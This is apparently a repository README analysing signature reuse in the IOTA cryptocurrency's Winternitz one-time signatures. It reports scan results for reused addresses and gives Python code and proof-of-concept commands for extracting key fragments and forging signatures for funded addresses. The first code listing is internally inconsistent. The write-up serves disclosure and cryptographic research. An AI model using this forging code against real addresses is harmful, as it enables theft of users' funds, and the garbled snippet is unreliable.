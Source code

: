 # IOTAs Multisig Problem
IOTA is a post quantum secure crypto currency that gained some value in the past.
It is based on the Winternitz One Time Signature Scheme.
In contrast to RSA, DSA and ECDSA it is not based on computation in a group and cannot be broken by discrete log or factorization.
Instead it is based on hash functions and secure as long as the hash function is preimage resistant.

As usual in cryptocurrencies, the public key is used for reception of funds.
If the user wants to send some funds to a different address, she has to sign a transaction (bundle in case of IOTA)  using the private key that belongs to that public key.
As the Winternitz signature scheme is a one time signature scheme there are some problems in practice.
The main implication is that if a transaction is made once, using a secret key, this key is burned and should NOT be used anymore.
Therefore the reception address has to be changed if the user issues a transaction for that public key.
Any further transaction to that public key would cause multiple signatures, what could cause security issues.
It would be plausible if a user does not always notifies everyone, if she makes a transaction and a new public key has to be used.
Therefore multiple signatures could occur for a given address.

# Winternitz
To explain how Winternitz Sigatures works, lets first see how the signature for a single byte works (lets assume we have usual 8-bit byte for simplicity).
A random variable $x_i$ is chosen and stored as the secret key which in case of IOTA is derived from the secret seed.
Let $h$ be the hash function and $pk_i$ the public key:

$$ pk_i = h^{256}(x_i) = h(h(h( ... h(x_i)))) $$

To sign a byte $b_i$ we have to publish:

$$ sig_i = h^{256-b_i}(x_i) $$

And the sigature can be verified by testing if

$$ pk_i = h^{b_i}(sig_i) $$

This scheme can adopted for multi byte signatures by choosing a different $x_i$ for every byte $b_i$.
Of course this basic method is not secure at all, as an attacker can sign all bytes $b'_i < b_i$.
The way IOTA handles this problem is to normalize the bytestring $B = (b_0, b_1, ... b_n)$ by changing the first bytes such that:

$$ \sum_i b_i = 128 $$

As IOTA uses trytes and not bytes this is slightly different in that case.
If an attacker wants to sign a different bytestring, she has to choose a different bytestring $B' \not= B$.
As the total sum is constant there will be at least two bytes such that $b'_i < b_i$ and $b'_j > b_j$.
To sign this bytestring $B'$ using a different signature, the attacker has to compute a preimage for $b'_j$ what is not possible in practice.
Even though this assumption only holds if the public key is only used once.

IOTA uses trits (-1,0,1) and trytes (group of 3 trits, 9,A-Z) to represent hash values.
Depending on the security level of the wallet a signature a signature consists of 1-3 fragments.
Each signature fragment itself consists of 27 Winternitz signatures.
Let $ pk_{i,j} $ be the $i$-th Winternitz public key of fragment $j$.
The IOTA public key (address) for a security level of 2 is computed as:

$$ addr = h(h(pk_{0,0} || pk_{1,0} || ... || pk_{26,0}) || h(pk_{0,1} || pk_{1,1} || ... || pk_{26,1})) $$


# Analyzing the Tangle
There exists a repository [alon-e/iotaWayBack](https://github.com/alon-e/iotaWayBack.git) that can be used to download and analyze the tangle.
All transactions can then be stored in a SQL database, but the whole process takes several hours to complete.
The most relevant fields are:

    -signature_message_fragment: Signature fragment of a bundle. Usually split over two entries (depending on security level).
    -address: The address that issues the transaction.
    -bundle_hash: The hash of the signed bundle.

This database can then be used to search for addresses that signed multiple bundles.
I've analyzed transactions of 27682 addresses (24.10.2016-10.12.2017) and 1425 have submitted multiple signatures!

| Signatures | Found | Affected MIOTA |
|------------|-------|----------------|
| 2          | 1313  | 925.682126     |
| 3          | 73    | 0.0037         |
| 4          | 24    | 1.279097       |
| 5          | 8     | ~0             |
| 6          | 2     | ~0             |
| 7          | 2     | ~0             |

# Forging Signatures
Luckily IOTA ships with an open source python implementation.
The iota.crypto.signing.validate_signature_fragments(...) can be used to check signatures in the tangle.
The pseudo code looks as follows (taken from iota.lib.py/iota/crypto/signing.py):

```python
def get_sk_fragments(fragments, bundle_hash, public_key):
  normalized_hash = normalize(bundle_hash)

  for (i, fragment) in enumerate(fragments): # for all signature fragments
    normalized_chunk = normalized_hash[i % len(normalized_hash)]

    outer = []
    sk_fragments[i*27 + j][normalized_chunk[j]] = buffer
    for (j, hash_trytes) in enumerate(fragment.iter_chunks(Hash.LEN)): # for each tryte in fragment
      buffer = hash_trytes.as_trits()

      for i in range(13 + normalized_chunk[j]): # winternitz iteration
        buffer = h(buffer)
        sk_fragments[i*27 + j][normalized_chunk[j]-i-1] = buffer

      outer.append(buffer)
    checksum.append( h(outer))


  return  h(checksum) == public_key.as_trits()
```

Note that there is a small modification, the update of sk_fragments, which keeps track of the intermediate values of the Winternitz values.
Using the known values of two or more signatures, own signatures can be forged.
If a particular intermediate value is not known, an IndexError is thrown and the signature generation fails.

```python
def sign(forged_hash, sk_fragments, num_frags = 2):
    normalized_hash = normalize(forged_hash)

    fragments = []
    for i in range(num_frags):
      fragment = ""
      for j in range(len(normalized_hash[i])):
          x = normalized_hash[i][j]
          x = sk_fragments[str(i*27 + j)][str(x)]
          fragment += str(iota.TryteString.from_trits(x))

      fragments += [iota.TryteString(fragment)]

    return fragments
```

In the IOTA protocol the bundle hash is a hash value of a bundle, an actual money movement and can not be chosen arbitrarily.
Even though random values can be signed if only two signatures are known.
This can be achieved by slightly mutating a known signature.

```python
import random
def mutate(x, n=26):
    x = x.as_trits()
    for _ in range(n):
        i = random.randrange(len(x))
        x[i] = x[i] * random.randrange(-1,2)

    return TryteString.from_trits(x)
```

# Estimating Bit Security
To estimate the bit security I made one assumption, that the signed hash is purely random.
Of course as the hash is normalized this is not true in practice.
Let $b'_i$ be the forged and $b^j_i$ the legitimate signature and assume that the propability of finding a signature is:

$$ P = \prod_i P(b'_i > Max_j(b^j_i)) $$

I've written a small program to verify the estimation and they seem to be a little bit off.
The actual number of attempts strongly depends on the signatures, how many hash values are revealed.
A rough estimation is

| Num Sigs | Estimated Bit Security |
|----------|------------------------|
| 2        | ~50 bit                |
| 3        | ~30 bit                |


# PoC
The repository  [bolek42/iotaWayBack](https://github.com/bolek42/iotaWayBack.git) implements a basic PoC for the problems above.
After using traverse.py to download the tangle parse_and_store.py can be used to export the transactions to a sqlite database.
The whole process can take several hours to complete.

```
python find_multisig.py sqlalchemy_IRI.db
```

can be used to find IOTA addresses that issued multiple signatures and still contain IOTA.
The key fragments will be written in a json file in keys/[address].json.
For each found address the balance and estimated bit security is printed.


The following call can be used to create valid signatures for a mutated bundle hash

```
python sigforge.py address bundle_hash
```

To create signatures of random variables to show the feasibility of signature forging the bundle hash can be omitted.
Note that this implementation is single threaded and not tuned for performance.

```
python sigforge.py address
```
